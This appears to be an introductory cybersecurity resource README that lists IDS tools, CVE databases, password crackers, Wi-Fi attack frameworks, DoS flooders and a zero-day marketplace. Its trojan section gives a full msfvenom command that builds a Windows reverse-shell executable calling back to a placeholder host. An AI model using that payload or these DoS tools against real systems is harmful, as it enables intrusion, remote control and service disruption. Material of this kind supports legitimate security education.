 # Introduction to Cyber Security

"Introduction to Cyber Security" базови познания в сферата на киберсигурността. 

---------------------------------------------------------------

## Frameworks for Recording Threat Actions

- [ATT&CK Matrix for Enterprise](https://attack.mitre.org/)

---------------------------------------------------------------

## IDS / IPS (Intrusion Detection System / Intrusion Prevention System)

- [Snort](https://www.snort.org/) - Snort is an Open Source Intrusion Prevention System (IPS). Snort IPS uses a series of rules that help define malicious network activity, which is used to find packets that match against them and generate alerts for users. Snort can be deployed to stop these packets, as well. Snort has three primary uses: As a packet sniffer like tcpdump and as a packet logger, which is helpful for network traffic debugging and can be used as a full-blown network intrusion prevention system.
- [Live Cyber Threat Map](https://threatmap.checkpoint.com/) - a real-time map of the computer security attacks occurring at any given time.

---------------------------------------------------------------

## Vulnerabilities `CVE-YEAR OF DISCOVERY-ID`

- [CVE Org](https://www.cve.org/) - Identify, define, and catalog publicly disclosed cybersecurity vulnerabilities
- [ExploitDB](https://www.exploit-db.com/) - Search for Vulnerabilities
- [National Vulnerability Database](https://nvd.nist.gov/) - U.S. government repository of standards-based vulnerability management data represented using the Security Content Automation Protocol (SCAP). This data enables automation of vulnerability management, security measurement, and compliance. The NVD includes databases of security checklist references, security-related software flaws, product names, and impact metrics.
- [CVE Details](https://www.cvedetails.com/) - a complete CVE database enhanced with additional information, including advisories, exploits, tools, source code changes, etc.
- Searchsploit - kali-linux command util

---------------------------------------------------------------

## Hacking Tools 

- [Hydra](https://github.com/vanhauser-thc/thc-hydra) - Brute-Force a Password
- [Responder](https://github.com/SpiderLabs/Responder) - Responder is an open-source tool primarily used for NetBIOS and LLMNR poisoning attacks. NetBIOS (Network Basic Input/Output System) and LLMNR (Link-Local Multicast Name Resolution) facilitate communication between devices on a local network.
- [John the Ripper](https://github.com/openwall/john) - John the Ripper is a fast password cracker, currently available for many flavors of Unix, macOS, Windows, DOS, BeOS, and OpenVMS (the latter requires a contributed patch). Its primary purpose is to detect weak Unix passwords. Besides several crypt(3) password hash types most commonly found on various Unix flavors, supported out of the box are Kerberos/AFS and Windows LM hashes, as well as DES-based tripcodes, plus hundreds of additional hashes and ciphers in "-jumbo" versions.
- [Zero Days Marketplace](https://0day.today/) - Zero Day Vulnerabilities. Zero Day means that they are brand new, and there
is not a fix or patch for them.
- [The Social-Engineer Toolkit (SET)](https://github.com/trustedsec/social-engineer-toolkit) - The Social-Engineer Toolkit is an open-source penetration testing framework designed for social engineering. SET has a number of custom attack vectors that allow you to make a believable attack quickly. SET is a product of TrustedSec, LLC – an information security consulting firm located in Cleveland, Ohio.

---------------------------------------------------------------

## Frameworks to Perform Wi-Fi Attacks

- [Airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) - This is a multi-use bash script for Linux systems to audit wireless networks.
- [WiFiPhisher](https://github.com/wifiphisher/wifiphisher) - Wifiphisher is a rogue Access Point framework for conducting red team engagements or Wi-Fi security testing. Using Wifiphisher, penetration testers can quickly achieve a man-in-the-middle position against wireless clients by performing targeted Wi-Fi association attacks.
- [WiFi Exploitation Framework](https://github.com/D3Ext/WEF) - This is an entirely offensive framework for auditing Wi-Fi networks with different types of attacks for WPA/WPA2, WPS, and WEP, automated handshake cracking, and much more.

---------------------------------------------------------------

## DoS Tools - Denial of Service (DOS)

- [Low Orbit Ion Cannon](https://github.com/NewEraCracker/LOIC) - Low Orbit Ion Cannon (LOIC) is an open-source network stress tool written in C# (TCP, UDP, HTTP GET FLOODS).
- [High Orbit Ion Cannon](https://sourceforge.net/projects/highorbitioncannon/) - HTTP GET / POST requests
- [hping3](https://www.kali.org/tools/hping3/) - hping3 is a network tool that sends custom ICMP/UDP/TCP packets and displays target replies like ping does with ICMP replies. It handles fragmentation and arbitrary packet body and size and can transfer files under supported protocols. Using hping3, you can test firewall rules, perform (spoofed) port scanning, test network performance using different protocols, do path MTU discovery, perform traceroute-like actions under different protocols, fingerprint remote operating systems, audit TCP/IP stacks, etc. hping3 is scriptable using the Tcl language.
- [Tors Hammer](https://github.com/Karlheinzniebuhr/torshammer) - As the name suggests, the tool can perform attacks inside the Tor network. By default, Tor's Hammer operates on level 7 of the OSI Model and attacks the whole TCP stack. The way it works is simple. The tool opens multiple dead connections and, thus, hangs the application since it cannot return results. However, instead of a crushing action like the literal Thor hammer, it is specialized for anonymous attacks. The tool is built in a way that uses anonymity as leverage to evade firewalls and security mitigations. Pen testers also use it for demo attacks on security structures. This tool has a downside. However, the primary network (Tor) is usually very slow. This speed limit automatically limits how effective these tools can be.

---------------------------------------------------------------

## Generate Trojan for Reverse Shell Callback

- [Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/) - Msfvenom enables you to generate custom payloads for specific targets. The tool was created by combining two previous Metasploit tools—msfencode and msfpayload. Msfvenom can help get past the security of a target protected by a firewall or an antivirus. `msfvenom –p windows/x64/shell/reverse_tcp LHOST=IP LPORT=PORT –f exe –o file.exe`

---------------------------------------------------------------

## Security Tools

- [OpenVPN](https://openvpn.net/) Virtual Private Network - Infrastructure that allows machines to connect in
a secure way
- [Tor Network](https://www.torproject.org/) This network is used for anonymity online
- [JWT Token](https://jwt.io/) JSON Web Token - Used for authorization in web apps. It relies on a secret to validate its signature. JWT token is instantiated upon a valid login
- [Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) - Applied algorithm to "obfuscate" a secret

---------------------------------------------------------------

## Example of interesting ports:

- 22 / SSH
- 80 / HTTP
- 443 / HTTPS
- 389 / LDAP

---------------------------------------------------------------

## Example of exciting commands:

- How to Check What Ports are Opened on Your PC
  - Windows:
    - `netstat –an`
    - `netstat –antb`
  - Linux:
    - `ss –nltp`
    - `netstat –tulpn`


